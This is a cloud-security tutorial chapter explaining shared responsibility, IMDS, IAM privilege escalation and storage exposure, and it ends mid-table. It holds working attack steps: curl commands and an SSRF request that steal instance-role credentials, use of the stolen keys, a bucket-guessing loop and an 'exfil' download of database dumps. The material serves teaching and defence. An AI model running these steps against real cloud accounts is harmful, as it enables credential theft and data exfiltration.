










This is Chapter 1 of the Cloud Security notebook. Everything in the earlier notebooks — Linux, networking, web, Active Directory, binary exploitation — still matters, but the ground has shifted underneath it. Workloads no longer live on servers you can walk up to; they live in someone else's data centre, created and destroyed by API calls, addressed by identity rather than by network location, and billed by the second. That shift changes what the attack surface *is*, where the perimeter *sits*, and who is responsible for securing *what*. This chapter builds the mental model the rest of the notebook depends on.

The single most important idea in cloud security is that **the cloud is API-driven and identity-centric**. In a traditional data centre, compromising a machine usually meant a foothold on that machine. In the cloud, compromising a *credential* — an access key, a token, a role — can mean control over the entire environment, because every action (spin up a server, read a database, delete all backups) is an authenticated API call. The firewall is no longer the perimeter; **identity is the perimeter**. Get this one idea and most of cloud attack and defence follows.

This chapter is conceptual by design — it establishes the shared-responsibility model, the service models, and the full cloud attack surface and kill chain, so that the hands-on AWS, Azure, and GCP chapters that follow have a frame to hang techniques on. Everything here is for securing environments you own or are authorised to assess; cloud pentesting is bound tightly by the provider's rules of engagement and the customer's authorisation, covered in Part 12.

---

## Part 1: Why the Cloud Is Different

Before any technique, internalise the properties that make cloud security its own discipline. Each has a direct security consequence.

| Property | What it means | Security consequence |
|---|---|---|
| **API-driven** | every resource is created/changed via authenticated API calls | a stolen credential = programmatic control of the whole account |
| **Identity-centric** | access is governed by IAM policies, roles, tokens | identity, not network, is the perimeter; privesc = policy abuse |
| **Ephemeral & elastic** | instances/containers appear and vanish in seconds | forensics and detection must be continuous; snapshots matter |
| **Software-defined everything** | networking, storage, firewalls are all config | a one-line misconfig can expose an entire dataset |
| **Shared infrastructure (multi-tenant)** | your VM shares hardware with strangers | isolation is the provider's job; side-channels are a research area |
| **Global control plane** | one console/API governs resources worldwide | blast radius of a compromised admin is enormous |

The practical upshot: **most cloud breaches are not exploits of the provider's infrastructure — they are misconfigurations and credential compromises in the customer's own account.** Public S3 buckets, over-permissive IAM roles, leaked access keys, and exposed metadata services cause far more incidents than hypervisor escapes. This is why the shared-responsibility model (Part 3) is the foundational concept: it tells you which of those risks are *yours* to fix.



---

## Part 2: The Three Service Models — IaaS, PaaS, SaaS

Cloud services come in three broad models, and each moves the line between "provider secures this" and "you secure this" to a different place. Knowing which model a service uses tells you instantly where the attack surface — and your responsibility — lies.

- **IaaS (Infrastructure as a Service):** the provider gives you raw compute, storage, and networking (e.g. AWS EC2, Azure VMs, GCP Compute Engine). You manage the OS, patching, applications, and most configuration. **Largest customer attack surface** — everything above the hypervisor is yours.
- **PaaS (Platform as a Service):** the provider manages the OS and runtime; you deploy code and data (e.g. AWS Lambda, Azure App Service, GCP App Engine, managed databases like RDS). You secure your code, its dependencies, IAM, and data — but not the OS.
- **SaaS (Software as a Service):** the provider runs a complete application; you just configure and use it (e.g. Microsoft 365, Salesforce, Google Workspace). Your responsibility shrinks to **data, identity, and configuration/sharing settings**.



The security lesson: **as you move IaaS → PaaS → SaaS, you trade control for a smaller attack surface but you never give up responsibility for data, identity, and configuration.** A misconfigured sharing setting in SaaS (a public Google Doc, an open Salesforce report) is just as damaging as a public S3 bucket in IaaS — and in every model, *your* IAM and *your* data are always yours to protect.

| Model | Provider secures | You secure | Classic breach |
|---|---|---|---|
| IaaS | hardware, hypervisor, network fabric | OS, patching, app, data, IAM, firewall rules | unpatched VM, open security group, public bucket |
| PaaS | OS, runtime, platform | app code, deps, data, IAM, service config | vulnerable dependency, over-permissive function role |
| SaaS | entire app stack | data, identity, sharing/permission settings | public share link, weak SSO/MFA, OAuth abuse |

---

## Part 3: The Shared Responsibility Model — The Core Concept

The **Shared Responsibility Model (SRM)** is the contract that divides security duties between the cloud provider and the customer. Every major provider publishes one, and every serious cloud-security decision traces back to it. The canonical framing:

- **Security *of* the cloud** — the provider's job: physical data centres, hardware, the hypervisor, the global network backbone, and the managed-service software itself. AWS, Azure, and GCP invest enormously here and it is rarely the source of customer breaches.
- **Security *in* the cloud** — the customer's job: your data, your IAM configuration, your OS patching (in IaaS), your application code, your network/firewall rules, and your encryption choices.



The reason this matters so much for both attacker and defender: **almost every real cloud incident is a failure on the customer side of the line.** The provider secures the hypervisor; the customer left an access key in a public GitHub repo. The provider encrypts disks at rest; the customer made the bucket public. When you assess a cloud environment, you are overwhelmingly assessing the *customer* side — IAM, config, data exposure — not trying to break the provider's infrastructure (which is out of scope and rarely fruitful).

A crucial subtlety: **the line moves per service.** For EC2 (IaaS) you patch the OS; for RDS (PaaS database) AWS patches the DB engine but you still manage users, network access, and encryption; for DynamoDB (fully managed) you manage only data and IAM. Misjudging where the line sits for a given service is itself a security failure — teams that assume "it's managed, so it's secure" leave the *in-the-cloud* half unaddressed.

| Layer | AWS example | Who secures it |
|---|---|---|
| Physical / hypervisor | AWS data centres | Provider |
| Managed service software | RDS engine, Lambda runtime | Provider |
| Guest OS | EC2 instance OS | Customer (IaaS) |
| IAM & credentials | roles, keys, policies | **Customer (always)** |
| Data & encryption | S3 objects, DB rows, KMS keys | **Customer (always)** |
| Network config | security groups, NACLs, VPC | Customer |
| Application code | your app on EC2/Lambda | Customer |

---

## Part 3b: The Three Providers — Same Concepts, Different Names

AWS, Azure, and GCP implement the *same* shared-responsibility and identity concepts with different terminology. A cloud security professional works across all three, so learn the translation table — the ideas transfer even when the names don't.

| Concept | AWS | Azure | GCP |
|---|---|---|---|
| Account boundary | Account | Subscription | Project |
| Org grouping | Organizations / OUs | Management Groups | Organization / Folders |
| Identity system | IAM | Entra ID (Azure AD) + Azure RBAC | Cloud IAM |
| Human/app identity | IAM User / Role | User / Service Principal / Managed Identity | User / Service Account |
| Permission grant | IAM Policy (JSON) | Role assignment (RBAC) | IAM binding (role→member) |
| Temp credentials | STS AssumeRole | Managed Identity token | Service Account impersonation / token |
| Compute (IaaS) | EC2 | Virtual Machines | Compute Engine |
| Object storage | S3 | Blob Storage | Cloud Storage (GCS) |
| Serverless fn | Lambda | Functions | Cloud Functions |
| Managed SQL | RDS | Azure SQL | Cloud SQL |
| Metadata service | IMDS `169.254.169.254` | IMDS `169.254.169.254` (`Metadata:true`) | `metadata.google.internal` (`Metadata-Flavor: Google`) |
| Audit logging | CloudTrail | Activity/Diagnostic Logs | Cloud Audit Logs |
| Threat detection | GuardDuty | Defender for Cloud | Security Command Center |
| Guardrails | SCP (Service Control Policy) | Azure Policy | Organization Policy |
| Secrets store | Secrets Manager / SSM | Key Vault | Secret Manager |
| CLI | `aws` | `az` | `gcloud` |

Two provider-specific nuances worth noting now:

- **Azure's identity is split**: **Entra ID** (formerly Azure AD) handles *authentication* and directory identity (users, service principals, groups, app registrations), while **Azure RBAC** handles *authorization* over Azure resources. Attacks often target Entra ID (token theft, consent phishing, app-registration abuse) *and* RBAC (role assignments) — a two-layer model AWS doesn't have.
- **GCP leans on service-account impersonation**: the `iam.serviceAccounts.getAccessToken`/`actAs` permissions are GCP's equivalent of `PassRole`+`AssumeRole` and are the primary privesc lever; its metadata service requires the `Metadata-Flavor: Google` header (a small SSRF speed bump, not a real defense).

The takeaway: **learn the concepts once, then map the vocabulary.** IMDS credential theft, over-permissive identity, public storage, and disabled logging are universal; only the API names change. The AWS chapter goes deep on AWS specifics; Azure and GCP chapters follow with their idioms.

---

## Part 4: Control Plane vs Data Plane

A distinction that pervades cloud attack and defence: the **control plane** versus the **data plane**.

- The **control plane** is the management layer — the APIs and console that *create, configure, and destroy* resources. "Launch an EC2 instance", "attach this IAM policy", "make this bucket public", "snapshot this database" are control-plane actions, all authenticated via IAM and (on AWS) logged to CloudTrail.
- The **data plane** is the resource *doing its job* — the EC2 instance serving traffic, the S3 bucket serving objects, the database answering queries. "GET this object", "SELECT from this table", "SSH into this host" are data-plane actions.

Why the distinction is central:

- **Control-plane compromise is usually catastrophic**: with control-plane access (a powerful IAM credential) an attacker can snapshot a database and copy it to their own account, create new admin users, disable logging, or spin up crypto-mining fleets — all without ever touching the data plane's application. This is why *IAM privilege escalation* (Part 6) is the crown jewel of cloud attacks.
- **Data-plane compromise is more like traditional hacking**: exploit the app, get a shell on the instance — but in the cloud that shell often becomes control-plane access via the *metadata service* (Part 5), which is the bridge attackers cross constantly.



The recurring attack pattern the whole notebook returns to: **get a foothold in the data plane (a web app, an SSRF, a shell), steal a credential that grants control-plane access (usually via the metadata service or a leaked key), then operate at the control plane where the real damage happens.**

---

## Part 5: The Instance Metadata Service (IMDS) — The Cloud's Most Attacked Endpoint

Every IaaS instance can query a special, link-local endpoint to learn about itself: the **Instance Metadata Service (IMDS)**, reachable at the magic address **`169.254.169.254`** on AWS, Azure, and GCP alike. It returns instance details — and, critically, **temporary IAM credentials for the role attached to the instance.** That last part makes it the single most important endpoint in offensive cloud security.

On AWS, the classic (IMDSv1) request needs no authentication — any process on the instance (or anything that can make the instance send an HTTP request) can read the role's credentials:

```bash
# IMDSv1 (no token) — the classic credential theft
$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
my-ec2-role
$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/my-ec2-role
{
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "wJal...",
  "Token": "IQoJb3...",
  "Expiration": "2027-04-07T12:00:00Z"
}
```

Those three values are temporary AWS credentials for the instance's role — export them and you *are* that role, able to make any API call the role permits:

```bash
$ export AWS_ACCESS_KEY_ID=ASIA... AWS_SECRET_ACCESS_KEY=wJal... AWS_SESSION_TOKEN=IQoJb3...
$ aws sts get-caller-identity        # confirm we're now the instance role
$ aws s3 ls                          # do whatever the role allows
```

**Why this is the crown jewel of the data-plane→control-plane bridge:** a **server-side request forgery (SSRF)** bug in a web app — the app fetching a URL the attacker controls — can be pointed at `169.254.169.254`, causing the app to fetch the credentials and return them to the attacker, with no shell needed. This exact chain (SSRF → IMDS → IAM credentials → control plane) is behind some of the largest cloud breaches on record and is covered hands-on in the AWS chapter.

The defensive counter is **IMDSv2**, which requires a session token obtained via a `PUT` request (with a hop-limit so SSRF that can only issue `GET`s is blocked):

```bash
# IMDSv2 — token required; defeats simple GET-only SSRF
$ TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" \
    -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
$ curl -H "X-aws-ec2-metadata-token: $TOKEN" \
    http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

| Aspect | IMDSv1 | IMDSv2 |
|---|---|---|
| Auth | none (plain GET) | session token via PUT first |
| SSRF resistance | weak (GET reaches it) | strong (needs PUT + custom header + hop limit) |
| Recommendation | disable / enforce v2 | **enforce v2, hop-limit 1** |

Enforcing IMDSv2 (and setting the network hop limit to 1 so containers/proxies can't relay) is one of the highest-value cloud hardening steps — it neutralises the most common cloud credential-theft chain. Azure (IMDS at the same IP, `Metadata:true` header required) and GCP (`metadata.google.internal`, `Metadata-Flavor: Google` header required) have analogous services and analogous SSRF risks.

---

## Part 5b: A Worked SSRF → IMDS → Control-Plane Walkthrough

Concepts stick when you see the exact commands. Here is the canonical cloud breach chain end to end, the way it actually plays out in an assessment (against an environment you're authorised to test).

**Step 1 — find an SSRF in the app.** The app has a "fetch a URL for me" feature (an image proxy, a webhook validator, a PDF renderer). You supply a URL and the *server* fetches it:

```http
POST /api/fetch HTTP/1.1
Host: app.example.com
Content-Type: application/json

{"url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"}
```

If the response echoes back the fetched content and you see a role name, the app is fetching the metadata service on your behalf — SSRF confirmed, and it reaches IMDS.

**Step 2 — read the role and its credentials:**

```http
{"url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/app-server-role"}
```
```json
{ "AccessKeyId":"ASIAxxxx", "SecretAccessKey":"abc123...",
  "Token":"IQoJb3JpZ2lu...", "Expiration":"2027-04-07T18:00:00Z" }
```

**Step 3 — assume the identity locally.** Export the three values and you *are* the instance role:

```bash
$ export AWS_ACCESS_KEY_ID=ASIAxxxx
$ export AWS_SECRET_ACCESS_KEY=abc123...
$ export AWS_SESSION_TOKEN=IQoJb3JpZ2lu...
$ aws sts get-caller-identity
{
  "UserId": "AROAEXAMPLE:i-0abc123",
  "Account": "123456789012",
  "Arn": "arn:aws:sts::123456789012:assumed-role/app-server-role/i-0abc123"
}
```

**Step 4 — enumerate what the role can do (control plane now).** Start read-only:

```bash
$ aws s3 ls                                   # buckets the role can list
$ aws ec2 describe-instances --output table    # the fleet
$ aws iam list-attached-role-policies --role-name app-server-role
$ aws iam get-role-policy --role-name app-server-role --policy-name inline-pol
```

**Step 5 — escalate / act** depending on the role's permissions (Part 6). Even a "read-only" app role often has more than intended — `s3:GetObject *`, `secretsmanager:GetSecretValue`, or a dangerous `iam:*`/`sts:AssumeRole`.

```mermaid
sequenceDiagram
    participant A as Attacker
    participant W as Web app (EC2)
    participant M as IMDS 169.254.169.254
    participant CP as AWS control plane
    A->>W: POST /api/fetch url=169.254.169.254/.../role
    W->>M: GET credentials (app fetches on attacker's behalf)
    M-->>W: temp creds (AccessKeyId/Secret/Token)
    W-->>A: echoes creds back
    A->>CP: export AWS_*; aws sts get-caller-identity
    CP-->>A: you are app-server-role -> enumerate & act
```

**What stops it at each step:** IMDSv2 (Step 2 fails — SSRF can't `PUT` a token), a hop-limit of 1 (a container proxying the request can't reach IMDS), least-privilege on the role (Step 5 yields little), and egress filtering (Step 3's use of the creds from a foreign IP triggers GuardDuty's `UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration` finding). This one walkthrough motivates half the defenses in Part 11.

---

## Part 6: IAM — The New Perimeter, and Privilege Escalation

If identity is the perimeter, **IAM (Identity and Access Management)** is the wall, the gate, and the guards. Every cloud provider has an IAM system that answers one question for every API call: *is this principal allowed to perform this action on this resource?* Understanding IAM is the core competency of cloud security.

The universal IAM concepts (names differ per cloud):

- **Principal / identity:** who is acting — a user, a group, a role, a service account, a workload.
- **Policy:** a document (JSON on AWS) granting or denying **actions** on **resources**, optionally with **conditions**.
- **Role / assumable identity:** a set of permissions that a principal or a service can temporarily *assume*, receiving short-lived credentials.
- **Permission boundary / SCP (org policy):** guardrails that cap the maximum permissions regardless of what a policy grants.

An AWS IAM policy statement, annotated:

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": ["s3:GetObject", "s3:PutObject"],   // what you can do
    "Resource": "arn:aws:s3:::my-bucket/*",         // on which resources
    "Condition": {"IpAddress": {"aws:SourceIp": "203.0.113.0/24"}}  // when
  }]
}
```

**Privilege escalation** is the heart of cloud offense: starting from a low-privileged identity (the one you stole via IMDS or a leaked key) and abusing IAM misconfigurations to gain more power — ideally administrator. Cloud privesc rarely uses memory bugs; it uses **legitimate API calls that the over-permissive policy allows**. Classic AWS privesc primitives:

| Primitive | The dangerous permission | How it escalates |
|---|---|---|
| Create a new policy version | `iam:CreatePolicyVersion` | attach a new, admin version to a policy you're bound to |
| Attach an admin policy | `iam:AttachUserPolicy` / `AttachRolePolicy` | attach `AdministratorAccess` to yourself |
| Pass a powerful role | `iam:PassRole` + `ec2:RunInstances`/`lambda:CreateFunction` | launch a resource *with* a powerful role, then use it |
| Update a Lambda's role/code | `lambda:UpdateFunctionCode` | run your code with the function's (powerful) role |
| Assume-role chaining | `sts:AssumeRole` on a permissive trust policy | hop to a more powerful role |
| Create access keys for others | `iam:CreateAccessKey` | mint keys for an admin user |

The unifying idea: **cloud privesc is a graph problem** — nodes are identities, edges are "can become / can act as". Tools like `PMapper`, `Cloudsplaining`, and BloodHound-style graphers (Part 10) compute the paths from your foothold to admin. The AWS chapter walks these hands-on; here the point is conceptual: **an over-permissive IAM policy is the cloud equivalent of a memory-corruption bug — the thing that turns a small foothold into total control.**



---

## Part 6b: Reading an IAM Policy Like an Attacker

IAM policies are JSON, and learning to read them adversarially — spotting the over-permission — is a core skill. Walk through a real-looking policy and find what's dangerous:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AppReadBucket",
      "Effect": "Allow",
      "Action": ["s3:GetObject", "s3:ListBucket"],
      "Resource": ["arn:aws:s3:::app-data", "arn:aws:s3:::app-data/*"]
    },
    {
      "Sid": "TooMuch",
      "Effect": "Allow",
      "Action": ["iam:PassRole", "lambda:CreateFunction", "lambda:InvokeFunction"],
      "Resource": "*"
    }
  ]
}
```

The first statement is fine — scoped read to one bucket. The **second statement is a privilege-escalation goldmine**: `iam:PassRole` on `Resource: "*"` combined with `lambda:CreateFunction` means the principal can create a Lambda function and *attach any role in the account to it* (including an admin role), then invoke it — running arbitrary code as that admin role. The over-permission isn't a wildcard on `iam:*`; it's the *combination* of `PassRole` + a compute-creation permission on `Resource: *`. This is why IAM analysis is subtle: individually-reasonable permissions combine into escalation.

The attacker's reading checklist for any policy:

| Look for | Why it's dangerous |
|---|---|
| `"Action": "*"` or `"service:*"` | full or service-wide control |
| `"Resource": "*"` on write/IAM actions | unscoped power |
| `iam:PassRole` (+ what compute service can consume it) | run code as a more powerful role |
| `iam:Create*` / `iam:Attach*` / `iam:Put*Policy` | self-escalation |
| `sts:AssumeRole` + a broad trust policy elsewhere | lateral movement to stronger roles |
| `secretsmanager:GetSecretValue` / `ssm:GetParameter` | harvest secrets |
| missing `Condition` (no IP/MFA restriction) | usable from anywhere by anyone with the key |

Enumerate a principal's effective permissions with the CLI, then reason about them:

```bash
# what's attached to me / this role
$ aws iam list-attached-user-policies --user-name app
$ aws iam list-user-policies --user-name app            # inline policies
$ aws iam get-policy-version --policy-arn <arn> --version-id v3
# simulate whether an action is allowed (great for finding privesc without trying it)
$ aws iam simulate-principal-policy --policy-source-arn <my-arn> \
      --action-names iam:AttachUserPolicy sts:AssumeRole lambda:UpdateFunctionCode
```

`simulate-principal-policy` is the professional's move: it tells you which dangerous actions you're *allowed* to take without you having to perform (and log) them. Tools like `Cloudsplaining` (Part 10) automate this reading across every policy in an account and flag exactly the rows in the table above.

---

## Part 6c: Human vs Workload Identity, and Why Short-Lived Wins

Cloud identities fall into two families, and the security properties differ sharply:

- **Human identities:** people logging in (IAM users, Entra ID users, Google accounts). Protected by MFA, SSO, and conditional access. The threats are phishing, credential stuffing, and session-token theft.
- **Workload identities:** code/services acting without a human (IAM roles on EC2, Azure Managed Identities, GCP service accounts, Kubernetes workload identity). The threats are IMDS credential theft, leaked service-account keys, and over-permissive attachment.

The single most important identity best-practice — for both — is **prefer short-lived, automatically-rotated credentials over long-lived static ones:**

| Credential type | Lifetime | Risk if leaked | Prefer? |
|---|---|---|---|
| IAM user access key (`AKIA...`) | until manually rotated | usable indefinitely by anyone | avoid |
| STS/role temp creds (`ASIA...`) | minutes–hours | expires quickly; scoped to a role | **yes** |
| Managed Identity / workload identity token | short, auto-rotated, never on disk | minimal (no static secret to leak) | **yes** |
| Service-account JSON key file | until revoked | file on disk = long-lived compromise | avoid where possible |

The reason leaked *static* keys (`AKIA...`) are so damaging (Part 8b) is precisely that they don't expire — a key in a Git history from years ago still works. Temporary role credentials (`ASIA...`, the kind IMDS hands out) expire in hours, which is why even the Capital One-style theft has a time limit and why credential *use from an anomalous IP* is detectable before the window closes. **This is the design principle behind "no long-lived keys":** minimise the value and lifetime of any credential an attacker might steal. Modern best practice is SSO + short-lived roles for humans, and workload identity (no key files) for services — pushing static secrets toward zero.



---

## Part 7: The Rest of the Cloud Attack Surface

Beyond IMDS and IAM, a handful of recurring exposure classes account for most cloud findings. Recognise each on sight.

- **Public storage (buckets/blobs):** S3 buckets, Azure Blob containers, and GCS buckets accidentally made public, or granted to "AllUsers"/"Everyone", exposing data to the internet. Still one of the most common breach causes; enumerable by name and indexed by search tools.
- **Over-permissive network config:** security groups / NSGs / firewall rules open to `0.0.0.0/0` on sensitive ports (SSH 22, RDP 3389, database ports, admin panels). The cloud equivalent of leaving the front door open.
- **Secrets sprawl:** access keys, API tokens, and passwords hardcoded in code, committed to Git, baked into container images, or sitting in environment variables and user-data scripts. Leaked keys are a top initial-access vector.
- **Snapshots and backups:** public or shared EBS snapshots / disk images / RDS snapshots that contain whole filesystems or databases — a quiet but devastating exposure.
- **Serverless & container risks:** over-permissive function roles, vulnerable dependencies in Lambda/Functions, exposed container registries, and Kubernetes misconfig (a whole domain of its own).
- **Logging & visibility gaps:** CloudTrail/Activity Log disabled or not centralised, no GuardDuty/Defender, meaning attacks go unseen. Attackers *disable* logging early; defenders must make that hard and detectable.
- **Multi-tenancy & isolation:** rare but real — shared-resource side channels, cross-tenant bugs in managed services (the provider's responsibility, but worth understanding).



---

## Part 7b: Public Storage Enumeration — A Worked Example

Public buckets are the most common cloud data exposure, and enumerating them is largely *unauthenticated* recon, so it's a natural first hands-on skill. S3 bucket names are **global and guessable**, which is the whole problem.

```bash
# 1) guess bucket names from the target's identifiers (company, product, env)
$ for n in acme acme-backups acme-dev acme-prod acme-assets acme-logs; do
    aws s3 ls s3://$n --no-sign-request 2>&1 | head -1 && echo "  ^ $n"
  done
# --no-sign-request = anonymous; a listing means the bucket allows public list
```

A public, listable bucket responds with its contents even anonymously:

```
2027-03-01 10:22:14   1048576 db-dump-2027-03-01.sql.gz
2027-03-02 10:22:31   1048576 db-dump-2027-03-02.sql.gz
  ^ acme-backups        <-- database backups, world-readable
$ aws s3 cp s3://acme-backups/db-dump-2027-03-01.sql.gz . --no-sign-request  # exfil
```

Purpose-built tools automate the guessing and permission-checking across providers:

```bash
$ cloud_enum -k acme -k "acme corp"          # S3 + Azure blobs + GCS in one sweep
$ s3scanner scan --bucket-file names.txt      # check read/write ACLs on candidates
# GrayhatWarfare (web) indexes already-public buckets/objects by keyword
```

Four distinct S3 exposure states, each a different severity:

| State | Anonymous can… | Severity |
|---|---|---|
